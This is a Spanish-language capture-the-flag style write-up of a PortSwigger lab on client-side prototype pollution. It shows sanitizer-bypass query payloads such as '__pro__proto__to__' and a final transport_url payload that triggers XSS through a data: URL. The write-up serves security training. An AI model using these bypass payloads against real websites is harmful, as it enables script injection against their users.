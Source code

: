 ```yaml
---
description: >-
  https://portswigger.net/web-security/prototype-pollution/client-side/lab-prototype-pollution-client-side-prototype-pollution-via-flawed-sanitization
---
```


# Lab 4: Client-side prototype pollution via flawed sanitization

Al probar diferentes cargas, se detecta que no funcionan:

<figure><img src="../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

Tampoco esta:

<figure><img src="../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

Y tampoco esta:

<figure><img src="../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Las cargas utilizadas fueron:

```
/?__proto__[foo]=bar
/?constructor.prototype.foo=bar
/?__proto__.foo=bar
```

Se procede a revisar el codigo fuente y se detecta la siguiente funcion que probablemente esta filtrando las entradas maliciosas:

```javascript
function sanitizeKey(key) {
    let badProperties = ['constructor','__proto__','prototype'];
    for(let badProperty of badProperties) {
        key = key.replaceAll(badProperty, '');
    }
    return key;
}
```

La función `sanitizeKey` está diseñada para eliminar ciertas cadenas específicas de una clave. Sin embargo, no aborda adecuadamente las variaciones o fragmentaciones de estas cadenas. Vamos a analizar por qué:

La función `sanitizeKey` depende de coincidencias exactas para reemplazar. Cuando la cadena `__proto__` está incrustada dentro de otra cadena (como en el siguiente payload), la función no la reconoce como un mal atributo y no la elimina.

```
/?__pro__proto__to__[foo]=bar
/?__pro__proto__to__.foo=bar
/?constconstructorructor[protoprototypetype][foo]=bar
/?constconstructorructor.protoprototypetype.foo=bar
```

Las cargas anteriores son funcionales.

Ahora si analizamos el codigo fuente:

```javascript
async function searchLogger() {
    let config = {params: deparam(new URL(location).searchParams.toString())};
    if(config.transport_url) {
        let script = document.createElement('script');
        script.src = config.transport_url;
        document.body.appendChild(script);
    }
    if(config.params && config.params.search) {
        await logQuery('/logger', config.params);
    }
}
```

Se detecta que la inyeccion o el payload debe abordar a transport\_url.

Por lo anterior, la carga quedaria de la siguiente manera:

```
/?__pro__proto__to__[transport_url]=foo
```

Pero al utilizarla obtenemos un error:\


<figure><img src="../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

Y al analizar el codigo fuente se puede apreciar la inclusion de foo:

<figure><img src="../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

La carga final para desplegar un XSS seria la siguiente:

```
/?__pro__proto__to__[transport_url]=data:,alert(1);
```

Y la salida de lo anterior es lo siguiente:

<figure><img src="../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>
